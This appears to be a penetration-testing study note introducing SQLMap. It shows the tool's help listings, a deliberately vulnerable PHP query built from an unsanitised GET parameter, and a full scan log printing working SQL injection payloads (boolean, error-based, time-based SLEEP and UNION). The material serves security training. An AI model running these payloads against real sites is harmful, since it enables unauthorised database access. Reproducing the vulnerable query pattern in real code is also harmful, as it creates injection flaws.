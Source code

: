﻿---
sticker: lucide//database-backup
---
Upon starting using SQLMap, the first stop for new users is usually the program's help message. To help new users, there are two levels of help message listing:

- `Basic Listing` shows only the basic options and switches, sufficient in most cases (switch`-h`):


```shell-session
smoothment@htb[/htb]$ sqlmap -h
 ___
 __H__
 ___ ___[']_____ ___ ___ {1.4.9#stable}
|_ -| . ["] | .'| . |
|___|_ [.]_|_|_|__,| _|
 |_|V... |_| http://sqlmap.org

Usage: python3 sqlmap [options]

Options:
 -h, --help Show basic help message and exit
 -hh Show advanced help message and exit
 --version Show program's version number and exit
 -v VERBOSE Verbosity level: 0-6 (default 1)

 Target:
 At least one of these options has to be provided to define the
 target(s)

 -u URL, --url=URL Target URL (e.g. "http://www.site.com/vuln.php?id=1")
 -g GOOGLEDORK Process Google dork results as target URLs
...SNIP...
```

- `Advanced Listing` shows all options and switches (switch`-hh`):


```shell-session
smoothment@htb[/htb]$ sqlmap -hh
 ___
 __H__
 ___ ___[)]_____ ___ ___ {1.4.9#stable}
|_ -| . [.] | .'| . |
|___|_ [)]_|_|_|__,| _|
 |_|V... |_| http://sqlmap.org

Usage: python3 sqlmap [options]

Options:
 -h, --help Show basic help message and exit
 -hh Show advanced help message and exit
 --version Show program's version number and exit
 -v VERBOSE Verbosity level: 0-6 (default 1)

 Target:
 At least one of these options has to be provided to define the
 target(s)

 -u URL, --url=URL Target URL (e.g. "http://www.site.com/vuln.php?id=1")
 -d DIRECT Connection string for direct database connection
 -l LOGFILE Parse target(s) from Burp or WebScarab proxy log file
 -m BULKFILE Scan multiple targets given in a textual file
 -r REQUESTFILE Load HTTP request from a file
 -g GOOGLEDORK Process Google dork results as target URLs
 -c CONFIGFILE Load options from a configuration INI file

 Request:
 These options can be used to specify how to connect to the target URL

 -A AGENT, --user.. HTTP User-Agent header value
 -H HEADER, --hea.. Extra header (e.g. "X-Forwarded-For: 127.0.0.1")
 --method=METHOD Force usage of given HTTP method (e.g. PUT)
 --data=DATA Data string to be sent through POST (e.g. "id=1")
 --param-del=PARA.. Character used for splitting parameter values (e.g. &)
 --cookie=COOKIE HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
 --cookie-del=COO.. Character used for splitting cookie values (e.g. ;)
...SNIP...
```

For more details, users are advised to consult the project's [wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage), as it represents the official manual for SQLMap's usage.

---

## Basic Scenario

In a simple scenario, a penetration tester accesses the web page that accepts user input via a`GET` parameter (e.g.,`id`). They then want to test if the web page is affected by the SQL injection vulnerability. If so, they would want to exploit it, retrieve as much information as possible from the back-end database, or even try to access the underlying file system and execute OS commands. An example SQLi vulnerable PHP code for this scenario would look as follows:


```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
 die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

As error reporting is enabled for the vulnerable SQL query, there will be a database error returned as part of the web-server response in case of any SQL query execution problems. Such cases ease the process of SQLi detection, especially in case of manual parameter value tampering, as the resulting errors are easily recognized:

 ![](https://academy.hackthebox.com/storage/modules/58/rOrm8tC.png)

To run SQLMap against this example, located at the example URL`http://www.example.com/vuln.php?id=1`, would look like the following:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
 ___
 __H__
 ___ ___[']_____ ___ ___ {1.4.9}
|_ -| . [,] | .'| . |
|___|_ [(]_|_|_|__,| _|
 |_|V... |_| http://sqlmap.org


[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] target URL content is stable
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] GET parameter 'id' appears to be dynamic
[22:26:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:26:46] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] reflective value(s) found and filtering out
[22:26:46] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done) 
...SNIP...
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
 Type: boolean-based blind
 Title: AND boolean-based blind - WHERE or HAVING clause
 Payload: id=1 AND 8814=8814

 Type: error-based
 Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
 Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

 Type: time-based blind
 Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
 Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

 Type: UNION query
 Title: Generic UNION query (NULL) - 3 columns
 Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

[*] ending @ 22:26:57 /2020-09-09/
```

Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.
